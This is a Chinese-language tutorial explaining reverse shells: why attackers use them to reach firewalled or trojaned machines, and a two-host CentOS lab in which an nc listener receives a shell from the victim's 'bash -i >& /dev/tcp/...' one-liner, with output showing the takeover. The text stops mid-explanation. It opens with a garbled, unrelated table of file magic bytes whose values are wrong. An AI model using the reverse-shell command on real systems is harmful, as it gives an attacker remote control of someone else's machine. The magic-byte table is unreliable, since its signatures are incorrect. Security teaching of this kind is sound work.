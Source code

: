|RAR|4D 45 4E 46 01 00 00 00 或 54 49 46 40 00 01 00 00 00 00 00 00 00 00 00|
|TXT|01 Compiled Typography(正式发布) 或 50 4B 46 01 00 00 00 00 00 00 00 00 00 00
|XPS|43 4F 52 4D 47 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

## 什么是反弹shell？

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

为什么要反弹shell？

通常用于被控端因防火墙受限、权限不足、端口被占用等情形。

举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

有如下情况：

1. 某客户机中了你的网马，但是它在局域网内，你直接连接不了。

2. 目标机器的ip动态改变，你不能持续控制。

3. 由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4. 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

参考：
https://www.zhihu.com/question/24503813   
反弹shell实验

环境：两台CentOS7.6服务器

攻击端 hacker：10.201.61.194
受害端 victim：10.201.61.195
1. 攻击端监听一个端口：
```bash
[root@hacker ~]# nc -lvp 6767
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::6767
Ncat: Listening on 0.0.0.0:6767
```
2.受害端生成一个反弹shell：
```bash
[root@victim ~]# bash -i >& /dev/tcp/10.201.61.194/6767 0>&1

3.攻击端已获取到受害端的bash：

[root@hacker ~]# nc -lvp 6767
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::6767
Ncat: Listening on 0.0.0.0:6767
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:46836.
[root@victim ~]#         //攻击端已获得受害端的远程交互式shell
[root@victim ~]# hostname
hostname
victim
解释：

1. nc -lvp 6767

-l 监听，-v 输出交互或出错信息，-p 端口。nc是netcat的简写，可实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口。

2. bash -i

```
